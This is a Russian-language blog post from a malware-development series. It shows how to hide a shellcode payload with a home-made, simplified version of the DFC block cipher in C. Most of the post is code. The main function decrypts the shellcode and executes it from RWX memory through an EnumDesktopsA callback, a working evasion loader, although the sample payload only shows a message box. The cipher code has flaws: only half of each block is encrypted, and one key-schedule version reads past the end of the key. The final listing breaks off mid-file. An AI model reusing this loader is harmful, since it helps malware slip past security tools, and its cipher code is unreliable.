








\newpage
\subsection{97. Исследование вредоносного ПО и криптографии - часть 6 (34): шифрование полезной нагрузки с помощью алгоритма DFC. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}     

После моей презентации и мастер-класса на конференции в [Люксембурге](https://www.youtube.com/watch?v=gW8v270HjxI), где я затронул вопрос злоупотребления криптографическими функциями во внутренней структуре ОС Windows, у многих коллег и читателей возникли вопросы об использовании криптографии для защиты вредоносного ПО в процессе его разработки.     

Этот пост является результатом моего собственного исследования по применению DFC (Decorrelated Fast Cipher) в разработке вредоносного ПО. Как обычно, изучая различные криптографические алгоритмы, я решил проверить, что произойдет, если применить его для шифрования/дешифрования полезной нагрузки.    

### DFC

**Decorrelated Fast Cipher (DFC)** был разработан в `1998` году криптографами из *École Normale Supérieure, CNRS и France Telecom* под руководством Сержа Воденея. Разработанный как кандидат на конкурс Advanced Encryption Standard (AES), DFC является симметричным блочным шифром, использующим `8`-раундовую [сеть Фейстеля](https://cocomelonc.github.io/malware/2024/10/20/malware-cryptography-33.html) и размер блока `128-bit`. Хотя он в конечном итоге не был выбран в качестве стандарта AES, DFC внес вклад в криптографические исследования, особенно в семейство шифров PEANUT.     

Decorrelated Fast Cipher (DFC) основан на `8`-раундовой сети Фейстеля, где каждый раунд обрабатывает `128-bit` блок, разделенный на две `64`-битные половины. DFC использует схему ключей для генерации 8 уникальных раундовых ключей из переменного ключа длиной до `256` бит, хотя обычно применяется `128-bit` ключ. В каждом раунде выполняется специальная функция шифрования одной половины блока, которая затем комбинируется с другой половиной, после чего половины меняются местами - классическая структура Фейстеля, позволяющая легко расшифровать данные путем обратного применения последовательности ключей.    

Архитектура DFC направлена на обеспечение высокой безопасности против дифференциального и линейного криптоанализа, а также примечательна использованием теории декорреляции, уменьшающей статистические взаимосвязи внутри зашифрованных данных для защиты от современных криптоаналитических атак. В функции шифрования каждого раунда используется пара 64-bit субключей, полученных из основного ключа, что делает шифр подходящим как для аппаратных, так и для программных реализаций.    

Хотя DFC не был выбран в качестве финального стандарта AES, он представил новые методы защиты от атак на основе декорреляции, подчеркнув сильные стороны симметричных блочных шифров. В настоящее время DFC входит в состав семейства PEANUT (Pretty Encryption Algorithm with n-Universal Transformation), которое примечательно использованием уникальных математических преобразований для повышения устойчивости к криптоанализу.    

### Практический пример

Реализуем это на практике. Разберем процесс реализации пошагово, чтобы понять, как должны быть реализованы функции шифрования и дешифрования на основе DFC, сосредоточившись на шифровании полезной нагрузки. Такой подход поможет вам понять каждую часть кода и ее роль в работе шифра DFC.

Прежде всего, определим константы и ключевые переменные:     

```cpp
#define ROUNDS 8
#define BLOCK_SIZE 16
```

Затем необходимо создать генерацию ключей.    
Функция генерации ключей создает восемь `128-bit` раундовых ключей на основе исходного ключа шифрования. Эти ключи используются в каждом из раундов Фейстеля для выполнения операций над каждой половиной блока данных:     

```cpp
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 16; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}
```

Раундовые ключи формируются путем применения операции XOR к каждому байту основного ключа с учетом индексов раунда и байта, создавая уникальные ключи для каждого раунда.    

Следующий шаг - реализация раундовой функции Фейстеля. В DFC каждый раунд выполняет операции с левыми и правыми половинами блока. Раундовая функция определяется как `G`, которая принимает `left` и `right` половины блока, а также `round key`.     
Эта функция меняет местами левую и правую половины, а затем выполняет XOR левой половины (после применения функции `F`) с правой половиной и текущим раундовым ключом:    

```cpp
// DFC G function applies Feistel structure in each round
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempRight = *right;
  *right = *left ^ F(*right, *(uint32_t*)roundKey);
  *left = tempRight;
}
```

`F` - это основная функция структуры Фейстеля. В моей реализации функция `F` для раунда Decorrelated Fast Cipher (DFC) использует побитовый сдвиг и операцию XOR для введения нелинейности и диффузии в каждом раунде:     

```cpp
// function F for DFC round (simplified for illustration)
uint32_t F(uint32_t left, uint32_t key_part) {
  return rotl(left + key_part, 3) ^ key_part;
}
```

Здесь параметр `left` обычно представляет собой `left` (левую) половину блока данных в раунде Фейстеля, а `key_part` - это `32`-битная часть раундового ключа, специфичная для каждого раунда Фейстеля.     

Основная логика этой функции проста.     

Входной параметр `left` (половина блока данных) складывается с `key_part`. Это сложение вводит зависимость как от текущих данных, так и от ключа, делая каждый раунд чувствительным к определенному раундовому ключу.      

Результат сложения затем циклически сдвигается влево на 3 бита (`rotl(..., 3)`). Побитовый сдвиг здесь используется для равномерного распределения битов по данным, усиливая диффузию. Функция `rotl` сдвигает биты влево на `3` позиции, при этом самые левые биты переносятся на правую сторону.      

Наконец, результат сдвига подвергается операции `XOR` с `key_part`. Операция `XOR` вводит дополнительную нелинейность и обеспечивает, что небольшие изменения в `key_part` или `left` приводят к значительным изменениям в выходных данных функции `F`.     

Следующая необходимая функция - это логика шифрования блока.    

Функция `dfc_encrypt` выполняет шифрование в структуре Фейстеля в течение `8` раундов. Каждый раунд использует уникальный раундовый ключ, сгенерированный в процессе подготовки ключей:       

```cpp
// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}
```

Эта функция инициализирует `left` и `right` из входного блока. Затем для каждого из `8`-раундов применяет функцию `G` к `left` и `right` с соответствующим ключом раунда. Наконец, меняет местами `left` и `right`, чтобы завершить раунд Фейстеля и обновить блок.

Функция расшифровки `dfc_decrypt` отражает шифрование, но раунды применяются в обратном порядке:

```cpp
// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}
```

Как обычно, `dfc_encrypt_shellcode` подготавливает шелл-код для шифрования, применяя заполнение и затем шифруя каждый `128-bit` блок:

```cpp
// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Эта функция вызывает `key_schedule` для инициализации ключей раунда. Затем шифрует основной шеллкод в `128-bit` блоках. И применяет заполнение, если длина шеллкода не кратна размеру блока.   

Следующая - логика расшифровки:    

```cpp
// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Наконец, соберем все вместе в `main`:     

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Как вы можете видеть, в основной функции я только что зашифровал/расшифровал полезную нагрузку `meow-meow` messagebox.

Полный исходный код `hack.c`:     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via DFC (Decorrelated Fast Cipher) algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/10/malware-cryptography-34.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8       // DFC uses 8 rounds of encryption
#define BLOCK_SIZE 16  // DFC operates on 128-bit (16-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][16];

// rotate left function
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F for DFC round (simplified for illustration)
uint32_t F(uint32_t left, uint32_t key_part) {
  return rotl(left + key_part, 3) ^ key_part;
}

// DFC G function applies Feistel structure in each round
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempRight = *right;
  *right = *left ^ F(*right, *(uint32_t*)roundKey);
  *left = tempRight;
}

// key schedule for DFC
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 16; j++) {
      K[i][j] = key[j % 8] ^ (i + j);  // generate subkey for each round
    }
  }
}

// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}

// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

